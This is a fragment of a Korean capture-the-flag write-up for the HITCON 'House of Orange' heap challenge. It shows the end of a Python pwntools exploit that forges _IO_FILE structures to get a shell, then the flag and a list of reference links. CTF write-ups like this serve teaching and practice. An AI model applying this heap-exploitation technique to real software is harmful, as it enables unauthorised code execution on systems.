 ```python
payload = "A" * 0x420
payload += _IO_FILE
payload += _IO_jump_t

func_upgrade(len(payload), payload)

# exploit
s.recvuntil("Your choice : ")
s.sendline("1")

s.interactive()
```

### hitcon{Y0ur_4r3_the_g0d_of_h34p_4nd_Or4ng3_is_s0_4ngry}

- - -
# 참고한 사이트

https://1ce0ear.github.io/2017/11/26/study-house-of-orange/

https://www.lazenca.net/display/TEC/House%2Bof%2BOrange

http://tech.c2w2m2.com/pwn/house-of-orange/

http://asiagaming.tistory.com/170

https://hicrhodus.xyz/timisoara-ctf-2018-quals-heapschool102/ (다른 문제지만 `house_of_oragne` 기법을 사용함)

https://code.woboq.org (소스 코드)
